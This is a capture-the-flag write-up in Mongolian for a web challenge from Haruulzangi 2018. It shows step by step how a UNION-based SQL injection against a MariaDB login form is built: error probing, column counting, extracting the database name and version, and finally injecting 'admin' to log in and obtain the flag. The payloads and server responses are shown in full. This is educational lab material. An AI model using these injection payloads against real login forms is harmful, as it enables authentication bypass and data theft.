

# Haruulzangi 2018 Round 1 : Хоосон ширээ

**Category:** Web
**Points:** 944
**Solves:** 6
**Description:**

>Санамсаргүй тохиолдлоор login table-ийн бүх бичлэгийг устгажээ. та admin аар нэвтэрч чадах уу ?
>`http://218.100.84.106:5002`
>
>
>--
>reamb


## Write-up

Өгөгдсөн хаягаар хандаж үзвэл энгийн login форм байв.



Даалгаврын тайлбарт өгөгдсөнөөр энд ямар ч бичлэг байхгүй table дээрээс хүссэн хэрэглэгчийн нэрээр нэвтрэх ёстой байна. Үүнээс хархад `SQL injection` -ны даалгавар гэдэг нь мэдэгдэж байна. SQLi энгийн шалгалт хийж үзсэнээр алдааны мэдээлэл гаргаж чадлаа.
```
username=reamb' 
password=pass
 
хүсэлт явуулахад
 
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'pass'' at line 1
```
Хэрвээ бид login table дээр reamb гэдэг хэрэглэгч байсан бол `reamb'#`  эсвэл `reamb';-- -` гэж хүсэлт илгээн нэвтрэх боломжтой.
>үүнд `#`  , `;-- -` нь sql query тэмдэгтээс хойш хэсгийг коммент болгоно.

Тэгвэл бид `Union` ны тусламжтайгаар тухайн query ний хэв шинжийг өөрчлөх боломжтой болж байгаа юм. Ингэснээр бид MariaDB  дээрээс өөрийн хүссэн `Database`, түүний `Tables`, `Fields`, `Data` -г гарган авах боломжтой.  Union injection -ны тухай илүү мэдээллийг [Basic Union Based SQL injection](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Basic-Union-Based-SQL-Injection.html) хараарай.

```
username=reamb'  union select 1,2,3,4,5;-- -
password=

хүсэлт явуулахад.

The used SELECT statements have a different number of columns
```
хариу ирж байна. Энэ нь бидний 5 column-тай гэж шууд тааж үзсэн нь зөрж байна гэсэн үг. `1,2,3,4,5` гэдэг нь тухайн query очиж буй table -ийн column ийн тоотой таарч байх ёстой. Үүнийг бид гараар хүсэлт явуулан таах гэж үзье.

```
username=reamb'  union select 1;-- -
password=

The used SELECT statements have a different number of columns
```
```
username=reamb'  union select 1,2;-- -
password=

Та 1 хэрэглэгч байна.
Зөвхөн admin нууцыг харна.
```
БИНГО!!

login table нь 2 column байх нь.  `Та 1 хэрэглэгч байна.` нь бидний `reamb'  union select 1,2;-- -` хүсэлт дээр бичсэн `1`н тоо юм. үүн дээр бид өөрчлөлт хийх Уг өгөгдлийн сангийн сервис дээрээс хүссэн мэдээллийг харж болно. жишээ нь:

```
username=reamb'  union select database(),2;-- -
password=

Та sqli хэрэглэгч байна
Зөвхөн admin нууцыг харна.
```         
`sqli` өгөгдлийн сангийн нэр.

```
username=reamb'  union select @@version,2;-- -
password=

Та 5.5.60-MariaDB хэрэглэгч байна.
Зөвхөн admin нууцыг харна.
```        
`5.5.60-MariaDB` серверийн хувилбарын мэдээлэл.

Манай бодлогын хувьд бол маш энгийн бөгөөд  `1` -г  `'admin'` болгосноор асуудал шийдэгдэнэ.

```
username=reamb'  union select 'admin',2;-- -
password=

Тавтай морил admin
HZ{SQL1_feels_go0d}
```        
flag нь `HZ{SQL1_feels_go0d}`

## Other write-ups and resources

* none yet
